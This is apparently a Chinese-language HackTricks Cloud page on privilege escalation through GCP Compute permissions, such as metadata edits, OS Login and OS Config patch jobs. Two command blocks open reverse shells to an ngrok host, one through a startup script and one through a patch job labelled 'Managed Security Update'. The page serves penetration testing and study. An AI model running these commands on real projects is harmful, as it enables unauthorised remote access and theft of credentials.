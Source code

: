 # GCP - Compute Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Compute

有关 GCP 中 Compute 和 VPC（网络）的更多信息，请查看：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
请注意，要执行所有需要修改实例元数据的权限提升攻击（如添加新用户和 SSH 密钥），**您需要对附加到实例的服务账户具有 `actAs` 权限**，即使服务账户已经附加！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

拥有该权限后，您可以**修改**一个**实例**的**元数据**信息并更改**用户的授权密钥**，或**创建**一个具有 sudo 权限的新用户。因此，您将能够通过 SSH 进入任何 VM 实例并窃取实例正在运行的 GCP 服务账户。\
限制：

* 请注意，默认情况下，在 VM 实例中运行的 GCP 服务账户具有**非常有限的范围**
* 您需要能够**联系 SSH** 服务器以登录

有关如何利用此权限的更多信息，请查看：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

您还可以通过添加新的启动脚本并重启实例来执行此攻击：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

此权限赋予**与之前权限相同的特权**，但仅针对特定实例，而不是整个项目。**与前一部分相同的漏洞和限制适用**。

### `compute.instances.setIamPolicy`

这种权限将允许您**授予自己具有之前权限的角色**并利用它们提升特权。

### **`compute.instances.osLogin`**

如果**实例中启用了OSLogin**，则使用此权限您可以直接运行**`gcloud compute ssh [INSTANCE]`**并连接到实例。您**在实例内没有root权限**。

{% hint style="success" %}
为了成功使用此权限登录到VM实例，您需要对附加到VM的SA拥有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### **`compute.instances.osAdminLogin`**

如果**实例中启用了OSLogin**，则使用此权限您可以直接运行**`gcloud compute ssh [INSTANCE]`**并连接到实例。您将在实例内拥有**root权限**。

{% hint style="success" %}
为了成功使用此权限登录到VM实例，您需要对附加到VM的SA拥有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

可以**创建一个分配了服务账户的虚拟机并窃取该服务账户的令牌**，通过访问元数据来提升特权。

此方法的利用脚本可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)找到。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

如果您拥有**`osconfig.patchDeployments.create`**或**`osconfig.patchJobs.exec`**权限，您可以创建一个[**补丁作业或部署**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)。这将使您能够在环境中横向移动，并在项目内的所有计算实例上获得代码执行权限。

请注意，目前您**不需要对附加到实例的SA拥有`actAs`权限**。

如果您想手动利用此漏洞，您需要创建一个[**补丁作业**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json)**或**[**部署**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**。**\
要运行补丁作业： 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

要部署补丁部署：
```bash
gcloud compute os-config patch-deployments create <name> ...
```
该工具 [patchy](https://github.com/rek7/patchy) 过去可以用于利用此错误配置（但现在无法使用）。

**攻击者也可以利用此进行持久性攻击。**

### `compute.machineImages.setIamPolicy`

**授予自己额外权限** 以访问计算镜像。

### `compute.snapshots.setIamPolicy`

**授予自己额外权限** 以访问磁盘快照。

### `compute.disks.setIamPolicy`

**授予自己额外权限** 以访问磁盘。

### 绕过访问范围

通过此链接，您可以找到一些 [**尝试绕过访问范围的想法**](../)。

### GCP 计算实例中的本地权限提升

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
